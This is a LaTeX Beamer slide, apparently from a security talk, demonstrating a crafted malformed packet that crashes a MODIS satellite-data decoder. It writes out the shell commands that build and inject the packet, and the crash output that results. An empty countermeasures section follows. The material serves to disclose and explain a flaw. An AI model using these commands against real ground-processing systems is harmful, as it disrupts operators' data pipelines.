 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Exploiting the decoder}
  \framesubtitle{Attack consequences}
  \begin{lstlisting}[basicstyle=\ttfamily\small,basewidth=0.6em]
$ printf %1337s  | tr " " "f"  | \
  spppack --type-flag telecommand \
            --sec-hdr-flag 1 \
            --app-id aqua_modis \
  > bad_packet.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\small,basewidth=0.6em]
$ cat bad_packet.PDS good_packet_sequence.PDS \
    > ./data/MYD00F.A2015299...001.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\small,basewidth=0.6em]
$ ./run_all.sh ./data/
DATA_PATH: /mnt/data
CONTAINER_RUNTIME: docker
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\small,basewidth=0.6em]
### Processing new PDS:
  MYD00F.A2015299.2110.20152992235.001.PDS
  \end{lstlisting}

  \pause
  \begin{lstlisting}[basicstyle=\ttfamily\small,basewidth=0.6em]
### Running modisl1db l1a-geo initial processing
<@\textcolor{red}{l0fix\_modis: Unrecoverable error in l0fix\_modis!}@>
  \end{lstlisting}
\end{frame}

\section{Countermeasures}
\end{document}
